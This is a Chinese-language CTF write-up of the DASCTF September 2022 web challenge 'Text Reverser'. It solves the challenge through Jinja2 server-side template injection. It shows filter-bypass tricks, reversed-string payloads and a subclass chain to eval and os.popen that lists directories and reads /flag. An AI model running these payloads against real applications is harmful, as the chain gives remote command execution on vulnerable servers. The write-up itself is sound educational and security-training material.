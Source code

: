 ```yaml
---
title: DASCTF 2022年9月赛复现
date: '2022/10/16 19:33:01'
categories:
  - - ctf
description: DASCTF 2022年9月赛复现
tags:
---
```


# DASCTF 2022年9月赛复现

## WEB

### Text Reverser

测试一下发现是模板注入，估计使用了 jinja2 模板

- 先用```{{ 3*3 }}```测试一下，然后发现有过滤

- 用 ```{% %}``` 替换 ```{{ }}```来绕过

- 发现绕是绕过去了，但是没有预期中的执行，观察到 output 出来的东西，是反着的，联想到题目叫 Text Reverser，想着是不是需要反转字符串输入

- 用 ```{% if 1 %}123{% endif %}``` 逆转过来的字符串测试一下，发现能执行

- 配合 print 进行输出，使用 ```{% print(''.__class__) %}``` 的反转

- 寻找子类 ```{% print(''.__class__.__base__.__subclasses__()) %}```

- 这里使用第213个子类，也就是```<class 'warnings.catch_warnings'>```这个子类
 ```{% print(''.__class__.__base__.__subclasses__()[213]) %}```

- 查看当前目录下文件
 ```{% print(''.__class__.__base__.__subclasses__()[213].__init__.__globals__["__builtins__"].eval('__import__("os").popen("ls").read()')) %}```

- 查看根目录下文件 
 ```{% print(''.__class__.__base__.__subclasses__()[213].__init__.__globals__["__builtins__"].eval('__import__("os").popen("ls /").read()')) %}```

- 发现cat指令被过滤了，用```nl```代替```cat```读取文件，得到 flag
 ```{% print(''.__class__.__base__.__subclasses__()[213].__init__.__globals__["__builtins__"].eval('__import__("os").popen("nl /flag").read()')) %}```

整体 payload 如下

```python
}% fidne %{321}% 1 fi %{

}% )__ssalc__.''(tnirp %{

}% ))(__sessalcbus__.__esab__.__ssalc__.''(tnirp %{

}% )]312[)(__sessalcbus__.__esab__.__ssalc__.''(tnirp %{

}% ))')(daer.)"sl"(nepop.)"so"(__tropmi__'(lave.]"__snitliub__"[__slabolg__.__tini__.]312[)(__sessalcbus__.__esab__.__ssalc__.''(tnirp %{

}% ))')(daer.)"/ sl"(nepop.)"so"(__tropmi__'(lave.]"__snitliub__"[__slabolg__.__tini__.]312[)(__sessalcbus__.__esab__.__ssalc__.''(tnirp %{

}% ))')(daer.)"galf/ ln"(nepop.)"so"(__tropmi__'(lave.]"__snitliub__"[__slabolg__.__tini__.]312[)(__sessalcbus__.__esab__.__ssalc__.''(tnirp %{
```

